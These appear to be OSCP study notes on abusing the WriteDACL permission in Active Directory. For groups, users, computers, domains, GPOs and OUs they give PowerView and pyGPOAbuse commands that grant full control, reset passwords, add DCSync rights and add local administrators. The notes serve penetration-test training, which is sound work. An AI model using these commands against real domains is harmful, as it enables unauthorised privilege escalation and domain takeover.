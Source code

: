 # Abuse Info
With the ability to modify the DACL on the target object, you can grant yourself almost any privilege against the object you wish.

## Groups

With WriteDACL over a group, grant yourself the right to add members to the group:
```bash
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers
```
See the abuse info for AddMembers edge for more information about execution the attack from there.


## Users
With WriteDACL over a user, grant yourself full control of the user object:
See the abuse info for GenericAll over a user for more information about how to continue from there.

```bash
# With WriteDACL over a user, grant yourself full control of the user object:
Add-DomainObjectAcl -TargetIdentity harmj0y -Rights All

# Change the target user's password
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity GPOADM -AccountPassword $UserPassword
```

## Computers
With WriteDACL over a computer object, grant yourself full control of the computer object:
See the abuse info for GenericAll over a computer for more information about how to continue from there.

```bash
Add-DomainObjectAcl -TargetIdentity windows1 -Rights All
```

## Domains
With WriteDACL against a domain object, grant yourself the ability to DCSync:
Then perform the DCSync attack.

```bash
Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync
```

## GPOs
![image](https://github.com/nuricheun/OSCP/assets/14031269/71cfd9d6-7d8f-4bb6-bde9-bfbdd9abcbcb)

With WriteDACL over a GPO, grant yourself full control of the GPO:
```bash
# With WriteDACL over a GPO, grant yourself full control of the GPO:
Add-DomainObjectAcl -TargetIdentity TestGPO -Rights All

# https://github.com/Hackndo/pyGPOAbuse
# gpo-id can be found above(bloodhound)/gpo file path
python3 pygpoabuse.py baby2.vl/GPOADM:'Password123!' -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" -command 'net localgroup administrators GPOADM /add' -f

```

Then edit the GPO to take over an object the GPO applies to.

OUs

With WriteDACL over an OU, grant yourself full control of the OU:

Add-DomainObjectAcl -TargetIdentity (OU GUID) -Rights All
Then add a new ACE to the OU that inherits down to child objects to take over those child objects.
